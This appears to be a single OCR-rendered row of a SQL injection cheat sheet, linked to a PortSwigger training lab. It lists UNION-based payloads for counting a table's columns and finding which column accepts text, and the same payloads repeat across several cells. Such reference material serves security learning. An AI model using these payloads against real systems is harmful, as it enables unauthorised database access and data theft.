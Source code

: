 | `x' UNION SELECT NULL,NULL,NULL--`<br>`' UNION SELECT NULL,'toto',NULL--`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      | Number of colums :<br>`x' UNION SELECT NULL,NULL,NULL--`<br>Inject a string to see if an error occurs :<br>`' UNION SELECT NULL,'toto',NULL--`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     | Number of colums :<br>`x' UNION SELECT NULL,NULL,NULL--`<br>Inject a string to see if an error occurs :<br>`' UNION SELECT NULL,'toto',NULL--`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  | Number of colums :<br>`x' UNION SELECT NULL,NULL,NULL--`<br>Inject a string to see if an error occurs :<br>`' UNION SELECT NULL,'toto',NULL--`                                                                                                                                                                                                                                                                          | Define the number of columns in a table with UNION injection.<br>Then define wich column is text. [See this labs.](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)                                                                                                        |